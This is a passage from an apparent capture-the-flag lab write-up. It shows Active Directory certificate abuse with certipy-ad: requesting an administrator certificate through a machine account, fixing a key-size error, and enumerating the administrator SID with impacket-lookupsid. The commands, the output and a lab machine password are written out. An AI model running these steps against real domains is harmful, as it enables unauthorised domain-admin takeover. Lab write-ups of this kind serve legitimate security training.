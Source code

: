
The attack failed, if we look at the error, it says `The public key does not meet the minimum size required by the specified certificate template.`

Looking at `certipy-ad` help menu

```powershell
└─$ certipy-ad req --help
<SNIP>
-key-size RSA key length
                        Length of RSA key (default: 2048)
<SNIP>
```

Doubling the size of the key fixed the issue

```powershell
└─$ certipy-ad req -ca retro-DC-CA -u 'BANKING$' -template RetroClients -upn administrator@retro.vl -target $(cat ip) -key-size 4096
Certipy v5.0.2 - by Oliver Lyak (ly4k)

Password:
[*] Requesting certificate via RPC
[*] Request ID is 14
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@retro.vl'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

Trying to authenticate with the certificate, we got an `SID` mismatch error

```powershell
└─$ certipy-ad auth -pfx administrator.pfx -dc-ip $(cat ip)                                                                  
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@retro.vl'
[*] Using principal: 'administrator@retro.vl'
[*] Trying to get TGT...
[-] Object SID mismatch between certificate and user 'administrator'
[-] See the wiki for more information
```

### Using impacket-lookupsid to enumerate `SID` of user `administrator`

```powershell
└─$ impacket-lookupsid 'retro.vl/BANKING$:glitch@10.129.26.138'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies                                                                                              
                                                                                                                                                                        
[*] Brute forcing SIDs at 10.129.26.138                                                                                                                                 
[*] StringBinding ncacn_np:10.129.26.138[\pipe\lsarpc]                                                                                                                  
[*] Domain SID is: S-1-5-21-2983547755-698260136-4283918172
<SNIP>
500: RETRO\Administrator (SidTypeUser)
<SNIP>
```
